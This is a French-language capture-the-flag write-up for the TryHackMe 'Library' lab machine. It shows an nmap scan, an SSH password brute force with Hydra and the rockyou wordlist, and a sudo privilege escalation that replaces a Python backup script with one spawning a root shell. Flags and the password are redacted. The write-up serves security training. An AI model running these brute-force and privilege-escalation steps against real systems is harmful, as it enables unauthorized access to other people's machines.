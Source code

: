 ```yaml
---
title: Library (Guatemala CTF)
tags: [TryHackMe, Facile, Force brute]
style: border
color: thm
comments: false
description: L'art de réécrire un script à son avantage
---
```


## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Exploration du site](#2-exploration-du-site)
* [3. Trouver un mot de passe](#3-trouver-un-mot-de-passe)
* [4. Elevation de privilèges](#4-elevation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.121.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 14:41 CEST
Nmap scan report for 10.10.121.39
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Le scan Nmap met en évidence la présence d'un serveur SSH sur le port 22, et d'un serveur Apache sur le port 80. Ce service dispose d'un fichier `robots.txt` qui permet d'empêcher aux moteurs de recherche de référencer les pages indiquées dans ce fichier.

## 2. Exploration du site

Nous commençons par vérifier le contenu du fichier `robots.txt` mis en avant par le scan précédent :

```bash
curl 'http://10.10.121.39/robots.txt'
User-agent: rockyou
Disallow: /
```

Le `User-agent` indique le nom d'une liste de mots de passe nommée *rockyou*. Cette liste est souvent utilisée pour trouver des mots de passe "faible" dans des outils de force brute comme *John the Ripper*, *Hashcat* ou encore *Hydra*.

{% include elements/figure.html image="/images/THM/20240903/VirtualBox_Kali Hack_03_09_2024_14_53_15.png" caption="Première connexion" %}

Le site héberge un blog, dont l'auteur s'appelle "meliodas". Nous utiliserons cet identifiant pour tenter de trouver un mot de passe valide pour une connexion SSH grâce à l'outil *Hydra*.

## 3. Trouver un mot de passe

L'outil *Hydra* nous permet bien de trouver le mot de passe de l'utilisateur "meliodas"

```bash
hydra -l 'meliodas' -P /usr/share/wordlists/rockyou.txt 10.10.121.39 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-03 15:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.121.39:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[22][ssh] host: 10.10.121.39   login: meliodas   password: i[...expurgé...]1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-03 15:05:30
```

Grâce à ces identifiants, nous pouvons accéder au serveur et récupérer le 1er flag.

```bash
ssh meliodas@10.10.121.39

cat user.txt
6d488c[...expurgé...]35f4ec
```

## 4. Elevation de privilèges

L'utilisateur meliodas est habilité à utiliser la commande sudo sans mot de passe pour lancer un script Python :

```bash
sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Le script en question appartient à root, et meliodas n'a que la possibilité de le lire. Nous ne pourrons pas modifier ce script pour obtenir un *reverse shell*.

```bash
ls -hAl bak.py
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

Le script semble permettre de faire une sauvegarde du contenu du site vers une archive `website.zip`

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Nous pouvons néanmoins supprimer puis recréer le fichier `bak.py` afin d'obtenir un shell root. Pour ce faire, nous utiliserons la commande proposée par [GTFOBins](https://gtfobins.github.io/gtfobins/python/#shell) en l'adaptant à nos besoins :

```bash
rm -f bak.py

echo "import os
> os.system('/bin/bash')" > bak.py

sudo /usr/bin/python3 ~/bak.py

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons accès au compte root, nous pouvons lire le dernier flag.

```bash
cat /root/root.txt
e8c8c6[...expurgé...]88c617
```
